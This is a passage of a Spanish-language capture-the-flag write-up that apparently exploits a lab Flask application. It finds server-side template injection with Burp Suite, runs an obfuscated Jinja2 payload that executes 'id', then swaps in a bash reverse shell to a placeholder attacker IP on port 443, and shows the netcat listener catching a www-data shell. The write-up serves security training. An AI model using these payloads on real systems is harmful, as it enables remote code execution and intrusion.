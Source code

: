 ![Captura](./Imágenes/web_6.png)

Acción: en 'Generate QR' podemos introducir el identificador anterior y obtener una URL con el QR de la factura anterior. Lo interesante aquí es que con BurpSuite vemos que el valor introducido en 'Insert QR Link to generate Scannable Invoice' se muestra en la respuesta que vemos con BurpSuite que no es más que el propio código fuente.

![Captura](./Imágenes/web_7.png)

![Captura](./Imágenes/burp_3.png)

Acción: como la web es `Flask` lo vemos con `Wappalyzer` plugin de Firefox. Podemos tratar de probar un [SSTI](../../../OWASP%20TOP%2010/SSTI/Server-Side%20Template%20Injection%20-%20SSTI.md).

![Captura](./Imágenes/web_9.png)

Acción: ejecutamos el payload clásico para el Framework que trae por defecto Flask que es *Jinja2* . Por lo que usamos `{{7*7}}` con la esperanza de ver `49` en el código fuente.

![Captura](./Imágenes/burp_4.png)

Resultado: confirmamos tanto en BurpSuite como por el código fuente de la página que tenemos un **RCE** (Ejecución Remota de Comandos).

![Captura](./Imágenes/web_8.png)

Acción: introducimos el siguiente payload encontrado en [PayloadsAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection). Y confirmamos RCE

```bash
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

![Captura](./Imágenes/burp_5.png)

Acción: con todo esto estamos en condiciones de enviarnos una Reverse Shell a nuestra máquina atacante, tan solo cambiamos el comando introducido anteriormente que era `id` por el siguiente (reverse shell clásica con urlencode en las `&`):

```bash
bash -c "bash -i >%26/dev/tcp/<IP_Atacante>/443 0>%261"
```

```bash
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')("bash -c 'bash -i >%26/dev/tcp/<IP_Atacante>/443 0>%261'")|attr('read')()}}
```

Resultado: ganamos acceso al servidor como usuario de bajos privilegios.

```bash
nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.12 56528
bash: cannot set terminal process group (1217): Inappropriate ioctl for device
bash: no job control in this shell
www-data@iclean:/opt/app$
```
